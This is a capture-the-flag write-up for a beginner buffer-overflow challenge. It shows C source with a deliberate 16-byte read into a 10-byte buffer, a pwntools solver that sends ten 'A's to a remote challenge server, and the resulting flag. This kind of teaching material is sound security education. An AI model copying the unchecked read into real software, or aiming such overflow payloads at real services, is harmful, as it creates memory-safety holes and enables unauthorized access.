

**Hello guys!** 

Back again with another pwn challenge. This challenge is simple and perfect for beginners learning about buffer overflow vulnerabilities. Let's dive in!

## Description



### Translation

In C, 0 is treated as False, and anything else is treated as True.

### Understanding the challenge

First, download and extract the challenge archive:

```bash
┌──(chjwoo㉿hackbox)-[~/…/ctfs/alpacahack/pwn/simpleoverflow]
└─$ ls
simpleoverflow.tar.gz
                                                                                                                                                                                             
┌──(chjwoo㉿hackbox)-[~/…/ctfs/alpacahack/pwn/simpleoverflow]
└─$ tar -zxvf simpleoverflow.tar.gz 
simpleoverflow/
simpleoverflow/Dockerfile
simpleoverflow/chall
simpleoverflow/compose.yml
simpleoverflow/src.c

```

Let’s inspect the binary and the source:

```bash
┌──(chjwoo㉿hackbox)-[~/…/alpacahack/pwn/simpleoverflow/simpleoverflow]
└─$ file chall 
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=abff9a2f7446757a9c400278aa319a489f0c7ee4, for GNU/Linux 3.2.0, not stripped
```

The binary is a 64-bit ELF executable that is **not stripped.** Here is the `src.c` logic:

```bash
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
  char buf[10] = {0};
  int is_admin = 0;
  printf("name:");
  read(0, buf, 0x10);
  printf("Hello, %s\n", buf);
  if (!is_admin) {
    puts("You are not admin. bye");
  } else {
    system("/bin/cat ./flag.txt");
  }
  return 0;
}

__attribute__((constructor)) void init() {
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);
  alarm(120);
}
```

Analyzing the source code

- The program allocates a buffer `buf[10]` but calls `read(0, buf, 0x10)`, allowing up to **16 bytes** to be written.
    
    That creates a **classic buffer overflow,** six bytes can overflow past the buffer.
    
- `is_admin` is a local `int` declared immediately after `buf`. On the stack, `is_admin` therefore sits **adjacent** to the buffer. Overflowing `buf` allows us to overwrite `is_admin`.
- The goal is simple: make `is_admin` **non-zero** so the program executes `system("/bin/cat ./flag.txt")`.

And then, this is the Dockerfile:

```bash
FROM ubuntu:24.04 AS base
WORKDIR /app
COPY chall run
RUN echo "ctf4b{****}" > /app/flag.txt

FROM pwn.red/jail
COPY --from=base / /srv
RUN chmod +x /srv/app/run
ENV JAIL_TIME=120 JAIL_CPU=100 JAIL_MEM=10M
```

The Dockerfile shows the challenge runs in a resource-limited sandbox with the flag placed at `/app/flag.txt`.

## Solution

The exploit strategy is straightforward:

1. Fill the 10-byte buffer.
2. Let the overflow overwrite the least significant byte of `is_admin`.
3. Any non-zero byte in `is_admin` will make `!is_admin` evaluate to `False`, executing the `else` branch and printing the flag.

Because `sendlineafter()` appends a newline (`\n` / `0x0a`) to our input, sending exactly 10 `'A'` characters will result in 11 bytes being written: 10 bytes for the buffer and one newline that overwrites the LSB of `is_admin` with `0x0a` (decimal 10). In C, that is treated as `True`.

```bash
from pwn import *

context.binary = ELF('./chall')

p = remote('34.170.146.252', 42137)

payload = b'A' * 10

p.sendlineafter(b'name:', payload)
p.interactive()
```

By sending exactly 10 'A' characters, we fill the buffer completely. However, `sendlineafter()` appends a newline character (`\n`, which is `0x0a`), giving us 11 bytes total. This extra byte overwrites the least significant byte of `is_admin` with `0x0a` (a non-zero value), changing it from 0 to 10, which evaluates to True in C.

```bash
┌──(chjwoo㉿hackbox)-[~/…/alpacahack/pwn/simpleoverflow/simpleoverflow]
└─$ python solver.py  
[*] '/mnt/hgfs/cybersec/ctfs/alpacahack/pwn/simpleoverflow/simpleoverflow/chall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
[+] Opening connection to 34.170.146.252 on port 42137: Done
[*] Switching to interactive mode
Hello, AAAAAAAAAA

ctf4b{0n_y0ur_m4rk}
[*] Got EOF while reading in interactive
$  
```

## Flag

`ctf4b{0n_y0ur_m4rk}`